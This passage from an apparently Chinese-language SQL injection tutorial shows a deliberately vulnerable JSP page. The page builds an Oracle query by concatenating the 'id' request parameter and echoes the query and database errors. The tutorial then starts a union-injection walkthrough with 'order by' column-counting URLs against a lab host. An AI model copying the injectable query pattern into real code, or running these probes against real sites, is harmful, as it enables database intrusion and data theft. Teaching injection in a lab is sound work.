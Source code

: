 ```html
            {
                out.print("filed!!");
            }
            try
            {
                Connection conn=DriverManager.getConnection(oraUrl,oraUser,oraPWD);
                String sql="select * from news where id="+request.getParameter("id");
                out.print("执行语句:<br>"+sql+"<br>");
                stmt = conn.createStatement();
                rs = stmt.executeQuery(sql);
                out.print("结果为:");
                out.print("<table border='1' cellpadding='4' cellspacing='0' style='background-color:White;border-color:#3366CC;border-width:1px;border-style:None;width:203px;border-collapse:collapse;'>");
                out.print("<tr style='color:#CCCCFF;background-color:#003399;font-weight:bold;'>");
                out.print("<td>id</td><td>title</td><td>content</td>");
                out.print("</tr>");
                out.print("<tr style='color:#003399;background-color:White;'>");
                while(rs.next())
                {
                        out.print("<td>");out.print(rs.getString(1));out.print("</td>");
                        out.print("<td>");out.print(rs.getString(2));out.print("</td>");
                        out.print("<td>");out.print(rs.getString(3));out.print("</td>");
                }
                out.print("<tr>");
                rs.close();
                stmt.close();
                conn.close();
            } catch (SQLException e)
            {
                    System.out.println(e.toString());
                    out.print(e.toString());
            }
     %>
  </body>
</html>
```

##### 9)联合查询注入

判断注入点的方式与之前的数据库注入一样，就不详细讲了。

###### 1.判断查询列数

```
依旧提交order by 去猜测显示当前页面所用的SQL查询了多少个字段，也就是确认查询字段数。
```

```
http://hackrock.com:8080/oracle/?id=1 order by 3 --+

http://hackrock.com:8080/oracle/?id=1 order by 4 --+
```
